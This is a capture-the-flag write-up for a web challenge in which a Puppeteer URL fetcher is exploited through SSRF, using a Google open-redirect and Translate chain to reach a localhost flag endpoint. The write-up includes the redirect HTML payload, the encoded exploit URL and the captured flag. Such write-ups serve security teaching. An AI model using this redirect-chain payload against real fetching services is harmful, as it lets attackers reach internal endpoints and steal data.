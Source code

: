 **Challenge:** Simple Fetcher  
**Category:** Web — Server-Side Request Forgery (SSRF) via Open Redirect  
**Src:** [Simple fetcher](../simple_fetcher/)

---

## Overview

This challenge presents a URL fetcher service using Puppeteer that only allows Google domains. However, it fails to validate redirect chains, enabling SSRF attacks against localhost endpoints through Google's legitimate redirect services.

## Source Code Analysis

### Key Components

```javascript
app.post("/fetch", async (req, res) => {
  const inputUrl = req.body.url;

  // Validation: String prefix + hostname check
  if (
    !inputUrl.startsWith("https://www.google.com/") &&
    !inputUrl.startsWith("https://google.com/")
  ) {
    return res.status(400).send("URL must start with https://www.google.com/");
  }

  const parsedUrl = new URL(inputUrl);
  if (
    parsedUrl.hostname !== "www.google.com" &&
    parsedUrl.hostname !== "google.com"
  ) {
    return res.status(400).send("Only www.google.com or google.com allowed");
  }

  // Puppeteer fetches URL
  const browser = await puppeteer.launch({
    args: ["--no-sandbox", "--disable-setuid-sandbox"],
    headless: true,
  });
  const page = await browser.newPage();
  await page.goto(inputUrl, { waitUntil: "networkidle2", timeout: 10000 });
  const content = await page.content();
  await browser.close();
  res.send(`<h2>Content from ${inputUrl}:</h2><pre>${content}</pre>`);
});

app.get("/flag", (req, res) => {
  const clientIp = (req.ip || req.connection.remoteAddress || "").toString();
  if (clientIp.includes("127.0.0.1") || clientIp.includes("::1")) {
    const flag = process.env.FLAG || "Flag{fake_flag}";
    res.send(flag);
  } else {
    res.status(403).send("Access denied. Only local access allowed.");
  }
});
```

## Vulnerability Analysis

### 1. No Redirect Chain Validation

```javascript
await page.goto(inputUrl, { waitUntil: "networkidle2", timeout: 10000 });
```

The application only validates the **initial URL** but does not check:

- Intermediate redirect URLs
- Final destination after redirects
- JavaScript-initiated navigation

Puppeteer automatically follows HTTP redirects and executes JavaScript without any validation on subsequent URLs in the navigation chain.

### 2. Trusting Google Services as Open Redirectors

By whitelisting `google.com`, the application implicitly trusts all Google services, including:

- **`google.com/url?q=`** — Google's URL redirection service for external links
- **`translate.google.com/translate?u=`** — Google Translate's proxy service that fetches and displays arbitrary URLs

**Reference:** [How does Google Translate work as a proxy?](https://stackoverflow.com/questions/34243506/how-does-google-translate-works-as-a-proxy)

### 3. Puppeteer Runs in Server Context

```javascript
args: ["--no-sandbox", "--disable-setuid-sandbox"];
```

Critical security implications:

- Puppeteer runs on the **server machine** with access to `localhost` (127.0.0.1)
- Can execute JavaScript from fetched pages without sandboxing
- No network isolation or egress filtering to prevent internal network access
- Requests to `/flag` endpoint originate from localhost, bypassing IP-based access control

## Exploitation

### Step 1: Setup Webhook.site Redirect

Navigate to [webhook.site](https://webhook.site/) and obtain your unique URL.

Go to **Response** tab and configure a custom HTTP response:

**Body:**

```html
<html>
  <body>
    <script>
      try {
        top.location.href = "http://127.0.0.1:3000/flag";
      } catch (e) {
        window.location.href = "http://127.0.0.1:3000/flag";
      }
    </script>
  </body>
</html>
```

<img src="images/image_15.png" alt="Setup Webhook.site Redirect" width="600">

### Step 2: Construct Exploit Payload

**Chain structure:**

```
https://google.com/url?q=
    https://translate.google.com/translate?u=
        https://webhook.site/e2e3258f-c822-43b8-a3b5-357609708561
```

**Payload:**

```
https://google.com/url?q=https%3A%2F%2Ftranslate.google.com%2Ftranslate%3Fu%3Dhttps%253A%252F%252Fwebhook.site%252Fe2e3258f-c822-43b8-a3b5-357609708561
```

### Step 3: Execution Flow

✅ Validation passes: URL starts with https://google.com/ and hostname matches
✅ Google URL service: Redirects to Google Translate with encoded parameter
✅ Google Translate proxy: Fetches content from webhook.site
✅ Webhook responds: Returns HTML with JavaScript redirect
✅ Puppeteer executes: JavaScript runs in server context, navigates to localhost
✅ Flag endpoint: IP check passes (request from 127.0.0.1), returns flag
🚩 Server responds: Returns rendered page content containing the flag

### Step 4: Result

<img src="images/image_16.png" alt="Result" width="600">

## Flag

`ASIS{ez_gg_open_redirector_68e04025dd853596d7762adc}`

---

_Author: Gia Than_
